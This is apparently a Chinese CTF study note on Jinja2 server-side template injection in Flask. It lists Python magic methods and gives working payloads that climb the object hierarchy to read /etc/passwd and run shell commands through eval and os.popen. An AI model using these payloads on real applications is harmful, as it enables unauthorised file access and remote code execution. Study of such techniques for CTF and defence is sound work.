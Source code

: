 ```yaml
---
title: SSTI漏洞
categories:
  - [ctf-web]
  - 渗透
date: 2023-10-27 22:11:40
tags:
---
```



# SSTI漏洞

- 定义：SSTI 就是服务器端模板注入 (Server-Side Template Injection)
- 基础知识：例如，在jinja2模板引擎中，{ { } }是变量包裹标识符。{ { } }了并不仅仅可以传递变量，还可以执行一些简单的表达式。
<!-- more -->
## Flask jinja2模版漏洞

魔术方法：

```python
__dict__ #保存类实例或对象实例的属性变量键值对字典

__class__ #返回调用的参数类型

__mro__ #返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__
__bases__

__subclasses__()#返回子类

__init__#类的初始化方法

__globals__#函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```

**利用方法&实现思路**：在python中，object类是Python中所有类的基类，如果定义没有指定继承哪个类，则默认继承object类。通过python的对象的继承来一步步实现文件读取和命令执行。

### **基本步骤**

1. 找到父类<type 'object'>
2. 寻找子类
3. 找关于命令执行或者文件操作的模块

### 准备工作

拿到object类的方法：

```python
''.__class__.__mro__[2]
[].__class__.__base__
[].__class__.__bases__[0]
#具体情况感觉不一定，需要验证。利用''.__class__.__mro__ 再确定索引
```

获取子类：

```python
#object.__subclasses__()
''.__class__.__mro__[2].__subclasses__()
```

找到object的子类warnings.catch_warnings：

```python
#[].__class__.__base__.__subclasses__().index(warnings.catch_warnings) 该函数暂未成功实现过
[].__class__.__base__.__subclasses__()[59]#默认在59,但有时候会不在，可以利用循环去找，下列具体操作中有示例
```

### 具体操作

#### 读取文件

利用file类：

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='file' %}
		{{"find!"}}
		{{ c("/etc/passwd").readlines() }}
	{% endif %}
{% endfor %}

```

或者还是利用catch_warnings类：

```jinja2
{#提前找到了catch_warnings#}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read()}}
{#利用循环找catch_warnings#}
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}      
		{{c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}
	{% endif %}
{% endfor %}
```

```jinja2
{#利用循环找catch_warnings#}
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__=='catch_warnings' %}
        {{ c.__init__.__globals__['__builtins__'].eval('open("/etc/passwd", "r").read()') }}
    {% endif %}
{% endfor %}
```

#### 命令执行

(有些执行命令的方式无回显，而当前方法可以看到回显)

如果catch_warnings已经找到：

```jinja2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()")}}
```

如果没找到（利用循环遍历寻找）：

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__=='catch_warnings' %}
      {{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()")}}
    {% endif %}
{% endfor %}
```

### 绕过过滤

待学习。。。

## 参考链接

https://houwenda.github.io/2020/02/22/jinja2-ssti/ 

https://zhuanlan.zhihu.com/p/93746437

https://zhuanlan.zhihu.com/p/596279414
